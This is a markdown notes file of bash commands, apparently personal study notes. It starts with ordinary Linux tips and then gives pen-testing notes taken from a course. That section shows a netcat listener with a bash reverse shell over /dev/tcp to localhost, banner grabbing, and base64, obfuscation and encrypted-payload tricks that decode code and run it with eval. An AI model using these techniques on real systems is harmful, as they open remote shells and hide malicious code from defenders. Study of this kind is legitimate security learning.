

# Useful linux commands
## Record console session with 'script'
    script [OPTIONS] FILENAME

    $ script output_1.txt
    Script started, file is output_1.txt
    
    $ date
    Wed Aug  5 12:06:50 JST 2020
    
    $ exit
    exit
    Script done, file is output_1.txt

## Record console session from a subshell
    $ bash > output.txt

## Turn the output file from the above command into something readable (it still needs tidying up though) or cat it to the terminal and copy and paste the output
    cat output_1.txt | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > output_1a.txt

## Key file conditions
    -e file: True if file exists.
    -f file: True if file exists and is a regular file.
    -d file: True if file exists and is a directory.
    -r file: True if file exists and is readable.
    -w file: True if file exists and is writable.
    -x file: True if file exists and is executable.
    -s file: True if file exists and has a size greater than zero.
    -L file: True if file exists and is a symbolic link.
    -N file: True if file exists and has been modified since it was last read.

## Job control
    CTRL-z - suspend a foreground job; use before bg or fg
    bg - put current job in background
    fg - bring current job to foreground
    jobs - list current jobs
    kill - terminate job
    stty tostop - stop a job if it attempts to send output to terminal emulator
    suspend - suspend a job-control shell
    wait - wait for background jobs to finish

## Co-processes
- Connects stdin and stdout to terminal emulator/shell, but not stderr
- Can be named or unnamed
- Only one active co-process at a time

Syntax:

    coproc command args
    coproc name (command args;command args)
Example:

    # Start a named co-process:
    coproc testProc (echo 1;read aline;echo $aline)
    
    # Show file descriptors:
    echo ${testProc[@]}
    
    # Show co-process PID:
    echo $testProc_PID
    
    # Read the first line of output and show it:
    read out <&${testProc[0]}
    echo $out
    
    # Send the co-process some input:
    echo nonsense >&${testProc[1]}
    
    # Read a second line of output:
    read out2 <&${testProc[0]}
    
    # Show the second line of output:
    echo $out2

## List system defined variables
    set
    env
    printenv

## Key system defined variables
1. BASH_VERSION
1. BASH
1. PWD
1. OSTYPE
1. HOME
1. LANG
1. HOSTNAME
1. PATH
1. COLUMNS
1. USER

## Other special variables

----------

# Bash - selected penetration testing commands
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)
## Network Reconnaissance and Enumeration
### Banner grabbing
    exec 3<>/dev/tcp/google.com/80
    echo -e "GET / HTTP/1.1\nHost: google.com\n\n" >&3
    cat <&3

## Establish a Foothold in a Network
### Backdoor
    SERVER: nc -lnvp 5780
    CLIENT: /bin/bash -i < /dev/tcp/127.0.0.1/5780 1>&0 

### Change MAC address
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

### ARP spoofing
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

## Establish a Foothold in a Host
### Sudoers
See [Pluralsight - Pen Testing with Bash](https://app.pluralsight.com/library/courses/bash-pen-testing/table-of-contents)

## Stealth
### Encoding
    base64 unencode.sh > encoded.sh
    eval "$(base64 -d encoded.sh)"

### Obfuscation
Example:

    #!/bin/bash
    a=$1
    z='base64 -d'
    t() {
    	f="echo -e \"$(echo $a | $z) \neval \\ \""
       	echo $f
    }
    z=$(t $a)
    eval $(eval $z | tac)

### Encryption
Example command line:

    openssl aes-256-cbc -a -salt -pbkdf2 -in secrets.txt -out secrets.txt.enc
    openssl aes-256-cbc -d -a -pbkdf2 -in secrets.txt.enc -out secrets.txt.new

Example script:

    #!/bin/bash
    # We ask the user to enter the passphrase, so that it is not hardcoded in the file
    echo "Please enter the passphrase:"
    read passphrase
    # We validate the passphrase
    if [[ -z $passphrase ]]; then
    	echo "Passphrase cannot be empty"
    	exit 1
    fi
    # Encrypted payload contents
    encrypted_payload="U2FsdGVkX18dJ/wcjyjr8Gr7oxlZXQq64dL5LDuBWpFDWkBct9JfH+1Ii6RvC3oK"
    # Decryption code, the passphrase is mypassphrase
    decrypted_payload=$(echo "$encrypted_payload" | openssl aes-256-cbc -d -pbkdf2 -iter 1000 -base64 -pass pass:$passphrase)
    # Execute decrypted payload
    eval $decrypted_payload

